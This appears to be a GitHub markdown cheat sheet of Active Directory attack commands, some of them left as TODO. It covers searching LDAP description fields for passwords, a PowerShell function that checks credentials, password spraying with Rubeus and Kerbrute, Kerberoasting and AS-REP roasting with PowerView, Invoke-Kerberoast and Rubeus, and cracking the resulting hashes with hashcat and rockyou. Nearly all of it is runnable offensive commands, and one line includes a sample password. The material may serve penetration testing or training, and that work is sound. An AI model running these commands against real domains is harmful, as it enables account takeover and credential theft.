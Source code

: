 # 1. Sensitive Data in LDAP
## Start ADExplorer and search through the AD for sensitive information
`adexplorer.exe`

ADexplorer> search user description field contains pw, pwd, password, pass

## Enumerate the AD with ADRecon
`.\ADRecon.ps1`

`.\ADRecon.ps1 -GenExcel .\ADRecon-Report-timestamp`

TODO: wget Excel file since Excel will not be installed

## Check if the password is working
```
function Test-ADCredential {

    [CmdletBinding()]
    Param
    (
        [string]$UserName,
        [string]$Password
    )
    if (!($UserName) -or !($Password)) {
        Write-Warning 'Test-ADCredential: Please specify both user name and password'
    } else {
        Add-Type -AssemblyName System.DirectoryServices.AccountManagement
        $DS = New-Object System.DirectoryServices.AccountManagement.PrincipalContext('domain')
        $DS.ValidateCredentials($UserName, $Password)
    }
}
```

`Test-ADCredential -UserName printeradm -Password "x!3945jjlkJ2mN4QQ2"`

# 2. Password Spraying
## Identify the standard domain password and start a password spray attack
### Rubeus
`.\Rubeus.exe brute /password:Start123!`

### Kerbrute
`Invoke-WebRequest "https://github.com/ropnop/kerbrute/releases/download/v1.0.3/kerbrute_windows_amd64.exe" -OutFile ".\kerbrute.exe"`

`Import-Module .\PowerView.ps1`

`(Get-NetUser | select samAccountName).samAccountName > users.txt`

`.\kerbrute.exe passwordspray --domain contoso.azure .\users.txt Start123!`

ToDo error

# 3. Kerberoasting
## Identify Kerberoastable users
### PowerView
`Import-Module .\PowerView.ps1`

`Get-NetUser | Where-Object {$_.servicePrincipalName} | fl`

`Get-NetUser -SPN | ft serviceprincipalname, samaccountname, cn, pwdlastset`

### PowerView-Dev
`Import-Module .\PowerView-dev.ps1`

`Get-DomainUser | Where-Object {$_.servicePrincipalName} | fl`

`Get-DomainUser -SPN | ft serviceprincipalname, samaccountname, cn, pwdlastset`

### Invoke-Kerberoast
`Import-Module .\Invoke-Kerberoast.ps1`

`Invoke-Kerberoast`

### Rubeus
`.\Rubeus.exe kerberoast`

## Get TGS Kerberos Tickets
### PowerView-Dev
`Import-Module .\PowerView-dev.ps1`

`Get-DomainUser -SPN | Get-DomainSPNTicket -OutputFormat Hashcat | % { $_.Hash } | Out-File -Encoding ASCII kerberoasted.txt`

### Invoke-Kerberoast
`Import-Module .\Invoke-Kerberoast.ps1`

`Invoke-Kerberoast | % { $_.Hash } | Out-File -Encoding ASCII kerberoasted.txt`

### Rubeus
`.\Rubeus.exe kerberoast /outfile:kerberoasted.txt`

## Crack TGS tickets
`hashcat -a 0 -m 13100 kerberoasted.txt /usr/share/wordlists/rockyou.txt`

# 3. Kerberoasting
## Identify AS-REP roastable users
### PowerView-Dev
`Get-DomainUser -PreauthNotRequired | ft samaccountname, pwdlastset`

`Get-DomainUser -UACFilter DONT_REQ_PREAUTH,NOT_PASSWORD_EXPIRED | ft samaccountname, pwdlastset`

### Rubeus
`.\Rubeus.exe asreproast`

### Invoke-ASREPRoast
`Import-Module .\Invoke-ASREPRoast.ps1`

`Invoke-ASREPRoast`

## ASREPRoasting
### Rubeus
`.\Rubeus.exe asreproast /format:hashcat /outfile:asrephashes.txt`

### Invoke-ASREPRoast
`Invoke-ASREPRoast | % { $_.Hash } | Out-File -Encoding ASCII asrephashes.txt`

## Cracking AS-REP hash with Hashcat
`hashcat -a 0 -m 18200 asrephashes.txt /usr/share/wordlists/rockyou.txt`

# 5. PASSWD NOT REQ
Get-ADUser -Filter {PasswordNotRequired -eq $true}

ToDO



